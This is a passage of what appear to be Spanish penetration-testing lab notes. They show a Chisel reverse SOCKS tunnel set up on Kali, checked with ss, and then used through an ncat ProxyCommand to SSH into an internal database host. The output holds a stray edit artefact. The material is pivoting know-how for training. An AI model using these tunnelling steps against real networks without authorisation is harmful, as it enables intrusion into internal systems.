 	    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
	...
	```

	A su vez, el servidor de Chisel informa de que ha recibido una conexión.

	```
	kali@kali:~$ chisel server --port 8080 --reverse
	2022/08/21 17:57:53 server: Reverse tunnelling enabled
	2022/08/21 17:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
	2022/08/21 17:57:53 server: Listening on http://0.0.0.0:8080
	2022/08/21 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
	```

	Observamos que el servidor se nos informa de que se ha abierto un SocksProxy en 1080 que atiende únicamente peticiones internas. Esto se puede corroborar con ss -punta

	```
	kali@kali:~$ ss -punta
	Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
	udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
	tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
	tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=5012:wq21,fd=6))
	tcp       LISTEN     0          511                          *:80                         *:*
	```

	Ahora, vamos a emplear ssh para conectarnos a través del SocksProxy creado por Chisel a la máquina PGDATABASE01 que está situado más allá de nuestro alcance convencional en el interior de la red corporativa que estamos asaltando. Para ello debemos tener instalado *ncat* y emplearlo con la opcion de ProxyCommand de SSH:

	```
	kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
	The authenticity of host '10.4.50.215 (<no hostip for proxy command>)' can't be established.
	ED25519 key fingerprint is SHA256:IGz427yqW3ALf9CKYWNmVctA/Z/emwMWWRG5qQP8JvQ.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '10.4.50.215' (ED25519) to the list of known hosts.
	database_admin@10.4.50.215's password:
	Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-41-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	0 updates can be applied immediately.
	
	Last login: Thu Jul 21 14:04:11 2022 from 192.168.97.19
	```

<br />
